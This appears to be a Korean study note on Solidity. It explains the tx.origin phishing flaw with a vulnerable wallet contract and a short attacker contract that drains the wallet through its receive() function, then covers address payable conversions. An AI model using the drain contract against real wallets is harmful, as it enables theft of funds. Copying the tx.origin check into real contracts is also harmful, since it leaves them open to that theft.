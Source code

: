 ```solidity
        owner = msg.sender;
    } 

    function transferTo(address payable dest, uint amount) public {
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}

```
```solidity
//SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0<0.9.0;

interface TxUserWallet {
    function transferTo(address payable dest, uint amount) public;
}

contract TxAttackWallet {
    address payable owner;

    constructor() public {
        owner = payable(msg.sender);
    } 

    receive() external payable  {
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    } 
}
```
> 공격자는 Ether 전송 시, 공격자 계정으로 전송되도록 함정을 만들 수 있음.
만약 권한검사를 위해 msg.sender를 체크했다면, 소유자 주소 대신 공격자의 wallet 주소를 얻게 될 것임. 또한 `tx.origin`을 체크해도 이것은 트랜잭션을 시작한 original address를 얻게 되며 그것은 공격자의 walltet이 될 것임. 따라서 공격자는 즉시 모든 Ether를 탈취할 수 있음.   

> v0.6.0 버전 이후 `address payable` 추가   
돈을 보낼 수 있는 주소타입 `address payable` 새로 추가. 기존 주소 타입에서는 돈을 전송하는 함수들을 삭제
```solidity
address payable to = 0x...; // 돈을 받을 주소
to.send(1 ether); // 나(트랜잭션을 실행한 사람)의 돈 1이더를 to 에게 보냄
to.transfer(1 ether); // 위와 같은 기능

address to2 = 0x...;
to2.send(1 ether);     // error
to2.transfer(1 ether); // error

```
 Q. 만약 `address`타입을 `address payable` 타입으로 변환하고싶으면?
 `uint160` 타입 변환 후 `address payble` 타입으로 변환
 ```solidity
 (0x...).transfer(1 ether); // 주소 상수 뒤에 바로 사용 OK
address to = 0x...;
address(to).transfer(1 ether); // 에러!
address(uint160(to)).transfer(1 ether); // 두번 변환은 OK
address payable x = address(uint160(to)); // 저장할 때도 두번 변환해야 OK
 
 ```
 ++ `msg.sender`는 자동으로 `address payble` 타입을 리턴
 ++ `msg.value`는 `payable` 함수 혹은 `internal 함수에서만 호출 가능. 따라서 다음 코드처럼 msg.value 값을 리턴하는 internal 함수를 만들어서 사용하는 것이 좋음
 ```solidity
 function msgValue() internal returns (uint256) {
     return msg.value;
 }
 ```
